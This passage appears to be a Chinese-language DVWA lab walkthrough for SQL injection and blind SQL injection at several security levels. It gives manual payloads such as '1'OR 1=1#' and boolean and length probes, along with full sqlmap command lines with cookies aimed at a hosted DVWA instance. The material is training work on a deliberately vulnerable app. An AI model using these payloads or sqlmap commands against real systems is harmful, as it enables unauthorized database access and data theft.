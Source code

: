 ### High
Payload同`Low`，只是跳新視窗
**Payload:** `1'OR 1=1#`

**SQLMap:** 
Sqlmap 指定second url : `/vulnerabilities/sqli/session-input.php` 從頁面讀取結果
```bash!
sqlmap.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/sqli/session-input.php" --method="POST" --data="id=1&Submit=Submit" --cookie="PHPSESSID=0i3t9fijt3qtlhqtq26umenok1; security=high" --technique=U --dbms="MySql" --os="Linux" -p "id" --threads 5 --level 5 --second-url  "https://digidvwa.azurewebsites.net/vulnerabilities/sqli/" --batch --banner
```


## Sql Injection (Blind)
### Low
**Payload:** 
True: `1' and 1=1#`
False: `1' and 1=0#`
Check if length of DBMS version is 7:
`1' and length(@@version)=7#`
逐一爆破

**Sqlmap:** 
technique指定`BT` - `Boolean & Time Based` Blind

```bash!
sqlmap.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/sqli_blind/?id=1&Submit=Submit" -p "id" --cookie "PHPSESSID=n280j97vu4pl3kmv34naghl107; security=low" --threads 10 --os="Linux" --dbms="Mysql" --technique=BT --banner
# Select version
--sql-query="SELECT version();
```
![](https://i.imgur.com/2321vkY.png)

### Medium
改用POST

```bash!
sqlmap.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/sqli_blind/" --method="POST" --data="id=1&Submit=Submit" --cookie="PHPSESSID=kd703reithlnjd00mc6goag3a2; security=medium" --technique=BT --dbms="MySql" --os="Linux" -p="id" --threads 10 --banner
```
    
### Hard
彈出新視窗`/vulnerabilities/sqli_blind/cookie-input.php`，將input放入Cookie key: id的value中
供`/vulnerabilities/sqli_blind/`抓取參數並輸出結果
![](https://i.imgur.com/ychO5vM.png)

SqlMap爆破Cookie內的ID即可
指定level 2
